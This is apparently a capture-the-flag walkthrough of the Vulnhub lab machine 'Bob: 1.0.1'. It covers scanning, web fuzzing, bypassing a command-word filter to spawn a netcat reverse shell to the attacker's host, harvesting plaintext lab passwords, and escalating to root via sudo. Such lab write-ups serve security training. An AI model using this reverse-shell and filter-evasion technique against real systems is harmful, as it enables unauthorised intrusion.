



# Information

- Name: Bob: 1.0.1
- Date Release: 9 Mar 2018
- Author: c0rrupted1t
- Series: Bob
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/bob-101,226/
- Difficulty: Begginer to intermediate

# Write Up
## Enumeration
### Host Discovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, the machine ip is _10.0.2.17_.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:09:94:e8 10.0.2.3
[*] 08:00:27:93:ca:43 10.0.2.17
```

### Port Scanning 
Port scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and _nmap_. First, let's discover the open ports:

```Console
# python portScanner.py -i 10.0.2.17
[*] Port 80 (http) open
[*] Port 25468 (unknown) open
```
The following is enumerate the version running on open ports.

```Console
# nmap -sV -p80,25468 10.0.2.17
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-03 11:03 UTC
Nmap scan report for 10.0.2.17 (10.0.2.17)
Host is up (0.00027s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
MAC Address: 08:00:27:93:CA:43 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

### Web
Nothing interesting in _index.html_.


But in _news.html_  source you can see a string coded in base 64:

```Console
# echo "SW4gb3RoZXIgbmV3cyBzb21lIGR1bWJhc3MgbWFkZSBhIGZpbGUgY2FsbGVkIHBhc3N3b3Jkcy5odG1sLCBjb21wbGV0ZWx5IGJyYWluZGVhZA0KDQotQm9i" | base64 -d
In other news some dumbass made a file called passwords.html, completely braindead

-Bob
```

So, let's see _password.html_:


You can fuzz the web to find hidden directories and files, in this case, with _gobuster_:
```Console
# gobuster dir -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 50 -u http://10.0.2.17
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.17
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/09/03 11:05:04 Starting gobuster in directory enumeration mode
===============================================================
/news.html            (Status: 200) [Size: 4086]
/login.html           (Status: 200) [Size: 1560]
/about.html           (Status: 200) [Size: 2579]
/contact.html         (Status: 200) [Size: 3145]
/index.html           (Status: 200) [Size: 1425]
/robots.txt           (Status: 200) [Size: 111]
/passwords.html       (Status: 200) [Size: 673]
/server-status        (Status: 403) [Size: 297]

===============================================================
2022/09/03 11:06:51 Finished
===============================================================
```
In _robots.txt_ there is a _dev_shell_:


## Exploitation

The _dev_shell_ ban words but lets try start a reverse shell with netcat (the _dev_shell_ ban nc and netcat so try /bin/netcat).


```Console
/bin/netcat -e /bin/bash 10.0.2.7 4333
```


```Console
nc -lvvvp 4333
Listening on any address 4333 (ahsp)
Connection from 10.0.2.17:56704
whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
uname -a
Linux Milburg-High 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64 GNU/Linux
lsb_release -a
Distributor ID:	Debian
Description:	Debian GNU/Linux 9.3 (stretch)
Release:	9.3
Codename:	stretch
```

## Privilege Escalation

In _/home/bob/_ there is a file _.old_passwordfile.html_ with jc and seb passwords.

```Console
www-data@Milburg-High:/home/bob$ cat .old_passwordfile.html
cat .old_passwordfile.html
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```

In /home/elliot there is a file _theadminisdumb.txt_ with elliot password.
```Console
www-data@Milburg-High:/home/elliot$ cat theadminisdumb.txt
cat theadminisdumb.txt
The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all of them the newbies Sebastian and James are quite new to managing a server so I can forgive them for that password file they made on the server. But the admin now he’s quite something. Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. His wallpaper policy also is redundant, why do we need custom wallpapers that doesn’t do anything. I have been suggesting time and time again to Bob ways we could improve the security since he “cares” about it so much but he just yells at me and says I don’t know what i’m doing. Sebastian has noticed and I gave him some tips on better securing his account, I can’t say the same for his friend James who doesn’t care and made his password: Qwerty. To be honest James isn’t the worst bob is his stupid web shell has issues and I keep telling him what he needs to patch but he doesn’t care about what I have to say. it’s only a matter of time before it’s broken into so because of this I have changed my password to

theadminisdumb

I hope bob is fired after the future second breach because of his incompetence. I almost want to fix it myself but at the same time it doesn’t affect me if they get breached, I get paid, he gets fired it’s a good time.
```

In _/home/bob/Documents_ ther are a _secret_ directory__and a _login.txt.gpg_. The _secret_ directory has a script _note.sh_.

```Console
www-data@Milburg-High:/home/bob/Documents$ ls
ls
Secret	login.txt.gpg  staff.txt
www-data@Milburg-High:/home/bob/Documents$ cd Secret
cd Secret
www-data@Milburg-High:/home/bob/Documents/Secret$ ls
ls
Keep_Out
www-data@Milburg-High:/home/bob/Documents/Secret$ cd Keep_Out
cd Keep_Out
www-data@Milburg-High:/home/bob/Documents/Secret/Keep_Out$ ls
ls
Not_Porn  Porn
www-data@Milburg-High:/home/bob/Documents/Secret/Keep_Out$ ls -R
ls -R
.:
Not_Porn  Porn

./Not_Porn:
No_Lookie_In_Here

./Not_Porn/No_Lookie_In_Here:
notes.sh

./Porn:
no_porn_4_u
$ cat Not_Porn/No_Lookie_In_Here/notes.sh
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
Here$ ta@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_H
```
After some time searching for a password for the gpg file I realize that the first letters of the _note.sh_ form "HARPOCRATES" which is the gpg password.

```Console
elliot@Milburg-High:/home/bob/Documents$ gpg --batch --passphrase HARPOCRATES --decrypt login.txt.gpg
decrypt login.txt.gpgase HARPOCRATES --d
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
```

With user bob you can be sudo:
```Console
bob@Milburg-High:~/Documents$ sudo su
sudo su
sudo: unable to resolve host Milburg-High
[sudo] password for bob: b0bcat_

root@Milburg-High:/home/bob/Documents# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Milburg-High:/home/bob/Documents# whoami
whoami
root
root@Milburg-High:/home/bob/Documents# cat /flag.txt
cat /flag.txt
CONGRATS ON GAINING ROOT

        .-.
       (   )
        |~|       _.--._
        |~|~:'--~'      |
        | | :   #root   |
        | | :     _.--._|
        |~|~`'--~'
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
   _____|_|_________ Thanks for playing ~c0rruptedb1t
```
